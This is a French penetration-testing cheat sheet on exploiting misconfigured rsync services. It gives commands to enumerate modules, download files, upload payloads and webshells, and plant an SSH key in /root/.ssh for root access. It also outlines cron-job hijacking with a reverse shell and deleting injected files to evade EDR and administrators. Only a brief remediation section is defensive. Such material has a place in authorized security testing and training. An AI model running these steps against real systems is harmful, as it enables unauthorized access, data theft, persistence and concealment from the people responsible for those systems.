

## Flux d'attaque Rsync

Ce diagramme illustre la chaîne d'énumération et d'exploitation d'un service **rsync** mal configuré.



## Détection du Service

Le protocole **rsync** utilise par défaut le port **873/TCP**. Il peut également être encapsulé via **SSH** sur le port **22/TCP**.

### Scanner le port 873 avec nmap

```bash
nmap -p 873 --script=rsync-list-modules target.com
```

Exemple de sortie :

```text
873/tcp open  rsync
|  rsync-list-modules:
|  public_files
|  backups
```

> [!info] Rsync via SSH vs Rsync natif
> L'utilisation de **rsync** via **SSH** nécessite des identifiants valides ou une clé privée, contrairement au mode natif qui peut être configuré sans authentification.

## Lister les Répertoires

L'énumération des modules permet d'identifier les points de montage accessibles sur le serveur distant.

### Lister les modules rsync

```bash
rsync target.com::
```

Exemple de sortie :

```text
public_files    Public file repository
backups         System backups
```

## Vérifier l'Accès

Une fois les modules identifiés, il est nécessaire de vérifier si le serveur autorise l'accès sans authentification.

### Lister les fichiers d'un partage

```bash
rsync target.com::public_files
```

## Télécharger des Fichiers

L'exfiltration de données est possible si les permissions du module permettent la lecture.

### Télécharger un fichier d'un partage

```bash
rsync -av target.com::public_files/important.doc .
```

## Tester l'Upload de Fichiers

L'accès en écriture sur un partage **rsync** constitue une vulnérabilité critique permettant l'injection de fichiers.

> [!danger] Risque d'écrasement de fichiers critiques
> L'upload de fichiers via **rsync** peut écraser des configurations système ou des scripts exécutés par **cron jobs**, menant à une exécution de code arbitraire.

> [!warning] Importance de vérifier les permissions en écriture
> Toujours tester l'écriture avec un fichier inoffensif avant de tenter l'injection de **webshells** ou de clés SSH.

### Uploader un fichier

```bash
rsync -av my_payload.sh target.com::public_files/
```

## Analyse de configuration (rsyncd.conf)

La récupération du fichier de configuration permet de cartographier précisément la surface d'attaque. Si le répertoire racine est accessible, tentez de lire `/etc/rsyncd.conf`.

```bash
# Exemple de récupération de configuration
rsync -av target.com::etc/rsyncd.conf .
```

Une configuration vulnérable typique ressemble à ceci :
```text
[data]
    path = /var/www/html
    read only = false
    list = yes
    uid = root
    gid = root
```
L'analyse de ce fichier permet d'identifier les répertoires cibles pour une injection de **webshell** (ex: `/var/www/html`).

## Escalade de privilèges via Rsync (cron jobs/ssh keys)

Si le service **rsync** tourne avec des privilèges élevés (root) et permet l'écriture, deux vecteurs principaux sont exploités :

1. **Injection de clé SSH** : Si le partage pointe vers `/root/.ssh/`, uploader une clé publique permet un accès SSH direct.
```bash
# Préparation de la clé
mkdir -p .ssh && chmod 700 .ssh
ssh-keygen -t rsa -f ./id_rsa
cat id_rsa.pub > .ssh/authorized_keys

# Upload via rsync
rsync -av .ssh/ target.com::root_ssh/.ssh/
```

2. **Cron Job Hijacking** : Si le partage permet d'écrire dans un répertoire où un script est exécuté par un cron job (ex: `/etc/cron.d/` ou un script utilisateur), injectez une commande de reverse shell.

## Remédiation

Pour sécuriser le service, appliquez les directives suivantes dans `/etc/rsyncd.conf` :

- **Restreindre l'accès** : `hosts allow = 192.168.1.0/24`
- **Forcer la lecture seule** : `read only = true`
- **Authentification** : Utiliser `auth users` et `secrets file` pour exiger des identifiants.
- **Chroot** : Utiliser `use chroot = yes` pour isoler le répertoire partagé.

## Nettoyage des traces

Après l'exploitation, il est impératif de supprimer les fichiers injectés pour éviter la détection par les outils de monitoring (EDR/IDS) ou les administrateurs :

```bash
# Suppression du payload
rsync -av --delete empty_dir/ target.com::public_files/
```
Vérifiez également les logs système `/var/log/syslog` ou `/var/log/rsyncd.log` pour identifier si vos connexions ont été journalisées.

## Tableau récapitulatif

| Étape | Commande |
| :--- | :--- |
| Scanner le port | `nmap -p 873 --script=rsync-list-modules target.com` |
| Lister les partages | `rsync target.com::` |
| Lister les fichiers | `rsync target.com::public_files` |
| Télécharger un fichier | `rsync -av target.com::public_files/important.doc .` |
| Uploader un fichier | `rsync -av my_payload.sh target.com::public_files/` |

Ces techniques s'inscrivent dans une méthodologie globale de **Linux Enumeration**, **File Transfer Techniques** et **Privilege Escalation**.